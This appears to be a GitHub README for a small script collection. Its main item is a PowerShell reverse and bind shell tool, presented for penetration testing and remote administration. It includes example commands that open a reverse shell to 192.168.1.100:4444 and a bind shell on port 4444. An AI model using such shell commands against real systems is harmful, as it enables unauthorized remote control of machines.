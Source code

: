 # Somethings

**Somethings** is a collection of scripts and tools designed for various automation, networking, and system management tasks. This repository serves as a resource for security enthusiasts, developers, and IT professionals seeking to streamline workflows and explore unique scripting solutions.

## Repository Overview

This repository currently contains a range of PowerShell scripts and other utilities, including reverse shell scripts, bind shells, automation tools, and more. Each script is optimized and includes documentation to facilitate ease of use and adaptation to different scenarios.

## Available Tools

### 1. PowerShell Reverse Shell Script

A versatile PowerShell script that supports both reverse and bind shell connections. It allows remote command execution through an interactive PowerShell session, useful in penetration testing or remote system management.

- **Modes**: Reverse shell and Bind shell
- **Example Usage**:
  - Reverse Shell:
    ```powershell
    Invoke-PowerShellTcp -Reverse -IPAddress "192.168.1.100" -Port 4444
    ```
  - Bind Shell:
    ```powershell
    Invoke-PowerShellTcp -Bind -Port 4444
    ```

For full details and usage examples, refer to the script’s [documentation](./scripts/Invoke-PowerShellTcp.md).

### 2. Automation Tools (Coming Soon)

Stay tuned for more scripts and utilities designed for task automation and system monitoring.

## How to Use

1. **Clone the Repository**:
   To clone this repository to your local machine, use the following command:
   ```bash
   git clone https://github.com/yourusername/Somethings.git
   ```

2. **Explore the Scripts**:
   Navigate through the directories to find the scripts and tools that match your needs. Each tool is documented with usage examples and necessary parameters.

3. **Contribute**:
   Feel free to contribute your own scripts or enhancements by submitting pull requests. We welcome tools that can help the community with system administration, security, automation, and more.

## License

This repository is licensed under the MIT License. See the [LICENSE](./LICENSE) file for more information.

## Contributions

Contributions are welcome! If you have a script or tool that you'd like to share, or if you'd like to improve an existing one, submit a pull request. Please ensure that your code includes comments and documentation to help others use it effectively.

## Contact

For any questions or suggestions, feel free to open an issue on GitHub, or reach out via email.

